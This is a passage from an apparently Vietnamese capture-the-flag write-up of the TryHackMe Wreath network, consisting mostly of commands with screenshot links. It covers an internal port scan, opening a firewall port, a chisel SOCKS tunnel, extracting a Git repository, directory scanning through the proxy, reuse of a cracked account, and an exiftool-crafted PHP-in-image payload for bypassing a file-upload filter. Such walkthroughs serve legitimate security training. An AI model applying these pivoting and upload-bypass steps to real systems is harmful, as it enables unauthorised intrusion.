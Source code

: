 sau đó chạy scan:

Invoke-Portscan -Hosts 10.200.84.100 -TopPorts 50

![](../media/Wreath%20-%20tryhackme_24.png)

netsh advfirewall firewall add rule name="Chisel-dai" dir=in action=allow protocol=tcp localport=47000

.\chisel.exe server -p 47210 --socks5

chisel client 10.200.84.150:47210 2080:socks

![](../media/Wreath%20-%20tryhackme_25.png)

![](../media/Wreath%20-%20tryhackme_26.png)

Set sockproxy qua poxyproxy

![](../media/Wreath%20-%20tryhackme_27.png)

download C:\GitStack\repositories\Website.git

![](../media/Wreath%20-%20tryhackme_28.png)

Đổi tên thư mục git và dùng git tools để extract

![](../media/Wreath%20-%20tryhackme_29.png)

List các thư mục và filter lại commit:

separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"

![](../media/Wreath%20-%20tryhackme_30.png)

Tìm các file php để review code

find . -name "*.php"

![](../media/Wreath%20-%20tryhackme_31.png)

Scan directory qua proxy

dirb http://10.200.84.100/ -p socks5://127.0.0.1:2080

![](../media/Wreath%20-%20tryhackme_32.png)

Sử dụng tài khoản Thomas đã crack ở trước để truy cập vào resources

![](../media/Wreath%20-%20tryhackme_33.png)

Tải file image bất kỳ sau đó them đuổi php.

Dùng exiftool để tạo payload payload rule upload file.

exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>"  background.jpg.php

